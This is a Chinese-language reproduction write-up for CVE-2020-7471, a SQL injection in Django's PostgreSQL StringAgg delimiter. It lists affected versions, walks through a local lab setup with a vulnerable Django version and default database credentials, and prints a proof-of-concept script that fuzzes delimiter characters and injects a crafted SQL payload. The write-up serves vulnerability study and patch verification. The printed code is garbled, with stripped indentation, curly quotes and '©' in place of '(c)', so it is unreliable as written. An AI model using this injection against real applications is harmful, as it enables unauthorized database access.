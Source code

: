 # （CVE-2020-7471）Django sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2887](https://www.zhihuifly.com/t/topic/2887)

# （CVE-2020-7471）Django sql注入漏洞

## 一、漏洞简介

Django是高水准的由Python编程语言驱动的一个开源Web应用程序框架，起源于开源社区。使用Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020年2月初，Django 官方发布安全通告公布了一个通过StringAgg（分隔符）实现利用的潜在SQL注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意SQL语句

## 二、漏洞影响

Django 1.11.x < 1.11.28
Django 2.2.x < 2.2.10
Django 3.0.x < 3.0.3
Django 主开发分支

## 三、复现过程

### 环境安装

1.  安装 django 漏洞版本，我测试用的是

    ```
    pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple 
    ```

2.  参考 https://www.runoob.com/postgresql/windows-install-postgresql.html 完成 postgres 数据库的安装

3.  新建数据库

    ```
    CREATE DATABASE test; 
    ```

4.  修改 sqlvul_projects/settings.py 里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为postgres），就无需修改任何配置，可以跳过这一步

    ```
    DATABASES = {
        'default': {
            'ENGINE': 'django.db.backends.postgresql',
            'NAME': 'test',         # 数据库名称
            'USER': 'postgres',
            'PASSWORD': 'postgres', # 数据库用户密码
            'HOST': '127.0.0.1',    # 数据库地址
            'PORT': '5432',
        }
    } 
    ```

5.  通过 django 初始化数据表

    ```
    python3 manage.py migrate
    python3 manage.py makemigrations vul_app
    python3 manage.py migrate vul_app 
    ```

### poc

```
# encoding:utf-8
import os
import django
os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

# Django 版本大于等于1.7的时候，需要加上下面两句

if django.VERSION >= (1, 7):#自动判断版本

django.setup()

from vul_app.models import Info

from django.contrib.postgres.aggregates import StringAgg

from django.db.models import Count

“”"

postgres 预先执行的SQL

CREATE DATABASE test;

\c test;

\d 列出当前数据库的所有表格

“”"

def initdb():

data = [(‘li’,‘male’),(‘zhao’,‘male’),(‘zhang’,‘female’)]

for name,gender in data:

Info.objects.get_or_create(name=name,gender=gender)

def query():

# FUZZ delimiter

error_c = []

other_error_c = []

for c in “!@#$%^&*()_+=-|\”’:;?/>.<,{}[]":

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’,delimiter=c))

try:

for e in results:

pass

except IndexError:

error_c.append©

except:

other_error_c.append©

print(error_c)

print(other_error_c)

def query_with_evil():

‘’’

注入点证明

分别设置delimiter为 单引号 二个单引号 二个双引号

尝试注释后面的内容 ‘)–

:return:

‘’’

print("[+]正常的输出：")

payload = ‘-’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e)

print("[+]注入后的的输出：")

payload = ‘-’) AS “mydefinedname” FROM “vul_app_info” GROUP BY “vul_app_info”.“gender” LIMIT 1 OFFSET 1 – ’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e) `if **name** == ‘**main**’:

print(django.VERSION) # 测试版本 3.0.2

initdb()

query()

query_with_evil()` 
```

然后运行 POC 脚本`CVE-2020-7471.py`就可以了

> 漏洞环境及其poc下载地址：https://github.com/ianxtianxt/CVE-2020-7471